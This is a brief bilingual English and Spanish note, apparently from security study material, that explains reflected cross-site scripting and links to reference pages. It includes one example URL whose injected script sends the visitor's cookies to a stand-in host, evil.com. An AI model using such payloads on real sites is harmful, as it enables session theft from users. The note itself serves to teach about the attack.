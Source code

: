 http://support.detectify.com/customer/portal/articles/1711512-cross-site-scripting
https://www.google.com/about/appsecurity/learning/xss/

enables attackers to inject client-side scripts into web pages viewed by users
The attacker may gain access to users cookies, session IDs, passwords, private messages etc.

La idea es crear una url inyectando código javascript. El dominio de la web será lícito.
Cuando el cliente abra la URL, el código inyectado puede robar datos del cliente como las cookies.

http://example.com/search.php?query=<script>document.InnerHTML += "<img src='http://evil.com/?cookie="+document.cookie+" />";</script>


# Atacar
xsser.md
